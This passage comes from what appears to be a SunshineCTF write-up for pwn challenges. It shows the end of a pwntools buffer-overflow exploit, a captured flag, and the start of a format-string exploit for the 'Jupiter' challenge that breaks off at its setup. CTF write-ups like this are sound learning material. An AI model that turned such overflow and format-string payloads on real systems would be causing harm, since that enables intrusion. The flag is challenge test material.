 ```python
def main():
    launch()

    payload = flat(
        b"A" * 0x4C,
        0x1337C0DE,
    )
    raw_input("DEBUG")
    target.sendlineafter(b"Enter Dexter's password: ", payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

### Flag

:spoiler[`sun{DeXtEr_was_!nnocent_Do4kEs_w4s_the_bAy_hRrb0ur_bu7cher_afterall!!}`]

## Jupiter

### Information

- Category: Pwn
- Points: 100

### Description

> Jupiter just announced their new Brightline junction... the ECHO TERMINAL!!!

### Write-up

`dprintf(2, (const char *)buf)`，明显格式化字符串，改 `secret_key == 322420958` 即可，后两字节没问题，直接改高字节。

### Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ROP,
    args,
    context,
    flat,
    p64,
    process,
    raw_input,
    remote,
)

FILE = "./jupiter"
HOST, PORT = "chal.sunshinectf.games", 25607

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
rop = ROP(elf)


def launch():
    global target
```